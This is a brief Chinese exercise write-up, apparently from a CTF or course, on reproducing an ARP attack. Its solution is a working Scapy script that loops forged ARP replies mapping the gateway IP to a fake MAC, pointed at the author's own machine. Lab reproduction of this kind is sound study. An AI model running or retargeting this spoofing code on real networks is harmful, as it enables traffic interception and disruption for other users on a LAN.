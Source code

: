 # 🏴 自下而上的窃听攻击

## 题目

复现一次 ARP 攻击。

## 题解

自己攻击自己！

```Python
import time

from scapy.all import (
    getmacbyip,
    ARP,
    Ether,
    sendp
)


my_ip = "192.168.1.106"
gateway_ip = "192.168.1.1"
my_mac = getmacbyip(my_ip)
gateway_mac = getmacbyip(gateway_ip)


pkt = Ether(src=my_mac, dst=my_mac) / ARP(op=2, hwsrc="11:11:11:11:11:11", psrc=gateway_ip, hwdst=my_mac, pdst=my_ip)

while True:
    sendp(pkt)
    time.sleep(2)
```